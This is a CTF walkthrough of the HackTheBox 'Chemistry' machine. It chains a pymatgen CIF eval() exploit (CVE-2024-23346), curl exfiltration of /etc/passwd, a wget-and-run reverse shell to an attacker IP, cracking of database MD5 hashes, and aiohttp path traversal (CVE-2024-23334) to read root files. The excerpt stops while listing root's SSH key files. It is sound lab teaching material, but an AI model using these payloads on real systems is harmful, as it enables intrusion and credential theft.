# Chemistry

Date: March 2025

Difficulty: <font color='green'>Easy</font>

Category: **full pwn**

## Description
Chemistry is a linux machine that provides a good place to play and understand recent CVEs in python libraries and servers.

It can be played [here](https://app.hackthebox.com/machines/Chemistry).

## Video Walkthrough

I uploaded a video walkthrough which is available at: 

[](https://www.youtube.com/watch?v=6Y4wJkxtz6A "Cicada from HackTheBox")


## Strategy

We get an initial shell as a low-privileged user by exploiting CVE-2024-23346 to achieve remote command execution. Then, we get credentials for another user in the box by cracking weak passwords. Finally, we discover an internal application running as root. The web server is vulnerable to a path traversal vulnerability known as CVE-2024-23334 that allows us to read the root's private SSH key.

## Enumeration

Performing an nmap TCP scanning, it reveals two open ports, consisting of 22 (SSH) and 5000 (HTTP):

```
$ nmap -sT -p- -min-rate 1000 -vv --open 10.10.11.38 -oA nmap/scan
...snip...
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
5000/tcp open  upnp    syn-ack
...snip...
```

When navigating to the http://10.10.11.38:5000 URL, a web application is shown:



We create an account and an option to upload a CIF file is displayed as follows:


We are provided with an `example.cif` file. When uploading it, it seems that the server is parsing its content and displaying the results, as shown below:





A quick overview of the traffic in Burp shows that the underlying web application seems to be a Flask application:



## Initial Access

### CVE-2024-23346 in pymatgen library

When investigating about CIF parser vulnerabilities these two links appeared as the first ones: [Critical Security Flaw in Pymatgen Library (CVE-2024-23346)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) and [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).

As explained by the first reference:

><i>"Pymatgen is an analytical tool that can study materials such as metals, polymers, and crystals. However, a recent security vulnerability exists in one of its methods threatens the integrity of pymatgen's use to take a description of how a material is transformed [...]. This vulnerability allows <b>the execution of arbitrary code when processing untrusted input, as the method insecurely utilizes `eval()`</b>. `eval()` is a function to execute arbitrary Python code, giving room for code injection attacks in the system."</i>

The second reference provides the following proof-of-concept that creates an empty "pwned" file:

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

### Getting a reverse shell with CVE-2024-23346 

First, we modify the PoC in order to verify that the application is actually vulnerable to this CVE. In order to do that, we change the command to perform a GET request to our server located at `10.10.14.182:2222`:



After uploading the file and viewing the resulting structure, a GET request arrives to our server, thus confirming the vulnerability:

```
$ python3 -m http.server 2222                                                                                                                              
Serving HTTP on 0.0.0.0 port 2222 (http://0.0.0.0:2222/) ...                                                                                                 
10.10.11.38 - - [09/Mar/2025 11:56:08] "GET / HTTP/1.1" 200 - 
```

Then, we change the payload in order to perform the following actions:
* exfiltrate files
* verify existance of binaries

In first place, we exfiltrate `/etc/passwd`and get a list of users with bash terminal in the machine, consisting of root, app and rosa. To demonstrate that, we specify the payload. `curl -d @/etc/passwd http://10.10.14.182:2222`:



Our netcat listener receives the file:

```
$ nc -nvlp 2222                                                                                                                                            
listening on [any] 2222 ...                                                                                                                                  
connect to [10.10.14.182] from (UNKNOWN) [10.10.11.38] 42694                                                                                                 
POST / HTTP/1.1                                                                                                                                              
Host: 10.10.14.182:2222                                                                                                                                      
User-Agent: curl/7.68.0                                                                                                                                      
Accept: */*                                                                                                                                                  
Content-Length: 1947                                                                                                                                         
Content-Type: application/x-www-form-urlencoded                                                                                                              
Expect: 100-continue

root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:
4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin
/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:
x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mail
ing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/
usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nolo
ginsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/s
bin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nolog
intss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinla
ndscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falsefwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/s
ystemd:/usr/sbin/nologinusbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:113:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999
:999:systemd Core Dumper:/:/usr/sbin/nologinrosa:x:1000:1000:rosa:/home/rosa:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falseapp:x:1001:1001:,,,:/
home/app:/bin/bash_laurel:x:997:997::/var/log/laurel:/bin/false
```

Then, we verify the existance of `nc` and `python3` with the following payloads:

```
curl http://10.10.14.182:2222$(which nc)
curl http://10.10.14.182:2222$(which python3)
```

We receive confirmation of the existance of the binaries in the machine:

```
python3 -m http.server 2222                                               
Serving HTTP on 0.0.0.0 port 2222 (http://0.0.0.0:2222/) ...
10.10.11.38 - - [09/Mar/2025 12:01:17] code 404, message File not found
10.10.11.38 - - [09/Mar/2025 12:01:17] "GET /usr/bin/nc HTTP/1.1" 404 -
10.10.11.38 - - [09/Mar/2025 12:02:02] code 404, message File not found
10.10.11.38 - - [09/Mar/2025 12:02:02] "GET /usr/bin/python3 HTTP/1.1" 404 -
```

Finally, we craft the following payload and receive a reverse shell in our netcat listener, as shown bellow:

```
wget http://10.10.14.182:2222/rev.py -O /tmp/rev.py && python3 /tmp/rev.py
```



```
$ nc -nvlp 3333
listening on [any] 3333 ...
connect to [10.10.14.182] from (UNKNOWN) [10.10.11.38] 60820
/bin/sh: 0: can't access tty; job control turned off
$ whoami
app
$ 
```

We get a full interactive shell:
```
$ script /dev/null -c bash
Script started, file is /dev/null
app@chemistry:~$ ^Z
[1]+  Stopped                 nc -nvlp 3333
┌──(cxzero㉿kali)-[~/htb/chemistry]
└─$ stty raw -echo
┌──(cxzero㉿kali)-[~/htb/chemistry]
└─$ 
nc -nvlp 3333
             reset
reset: unknown terminal type unknown
Terminal type? xterm
app@chemistry:~$ export SHELL=bash
app@chemistry:~$ export TERM=xterm
app@chemistry:~$
```

When reviewing the app.py file, we see that it is referencing a `database.db` file:

```
app@chemistry:~$ ls
app.py  instance  static  templates  uploads
app@chemistry:~$ more app.py
app@chemistry:~$ more app.py
from flask import Flask, render_template, request, redirect, url_for, flash
from werkzeug.utils import secure_filename
from flask_sqlalchemy import SQLAlchemy 
from flask_login import LoginManager, UserMixin, login_user, login_required, log
out_user, current_user
from pymatgen.io.cif import CifParser
import hashlib
import os
import uuid

app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
```

We find some MD5 hashes:

```
pp@chemistry:~/instance$ sqlite3 database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user     
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5 
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
[...]
```

We attempt to crack them with Crackstation and find the password for `rosa`:



Finally we login with rosa credentials with the SSH service, as follows:

```
$ ssh rosa@10.10.11.38                                                                                                                                     
rosa@10.10.11.38's password:                                                                                                                                 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)                                                               ...snip...
rosa@chemistry:~$ cat user.txt                                                                   
rosa@chemistry:~$                   
fbd0d90e559c29b55eaf066680d1aab6  
```

## Privilege Escalation

### Internal application

We find an internal service running at 
127.0.0.1:8080, which was not found during the external port scanning:

```
$ rosa@chemistry:/opt$ ss -atpn                                                                                                                                
State               Recv-Q            Send-Q                       Local Address:Port                        Peer Address:Port            Process            
LISTEN              0                 128                                0.0.0.0:5000                             0.0.0.0:*                                  
LISTEN              0                 128                              127.0.0.1:8080                             0.0.0.0:* 
```

We also identified the directory `/opt/monitoring_site` that only root can access and modify:
```
$ rosa@chemistry:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 Jun 16  2024 .
drwxr-xr-x 19 root root 4096 Oct 11 11:17 ..
drwx------  5 root root 4096 Oct  9 20:27 monitoring_site
```

Then, we login again to SSH with rosa, but specifying this time a local port forwarding to tunnel the HTTP traffic of the internal site to our machine:

```
$ ssh rosa@10.10.11.38 -L 9999:127.0.0.1:8080
```

After that we were able to access the internal application:



### Path traversal in aiohttp 3.9.1 aka CVE-2024-23334

Reviewing the internal application through Burp, we see that the web server is `Python/3.9 aiohttp/3.9.1`:



aiohttp/3.9.1 is vulnerable to a path traversal vulnerability as indicated in [CVE-2024-23334: A Deep Dive into aiohttp's Directory Traversal Vulnerability](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/).

As observed by the article:

><i>"This vulnerability arises when aiohttp is used as a web server and static routes are configured without proper safeguards [...] The root cause of <b>this vulnerability lies in the way aiohttp handles static file serving when follow_symlinks is enabled. This setting allows aiohttp to follow symbolic links (symlinks)</b> during file serving, which can be exploited by attackers to navigate to arbitrary locations on the system."</i>

Inspecting the HTML source code of the application we see that static files are served in /assets/ directory, as shown below:



The aforementioned article provides a proof-of-concept that we modified as follows to read the `/etc/passwd` file:



We also try to read the `/etc/shadow`, thus confirming the web application is running as root:



With that knowledge, we try to read the following files in order to exfiltrate the private SSH key of the root user:
- /root/.ssh/aurhotized_keys
- /root/.ssh/id_rsa

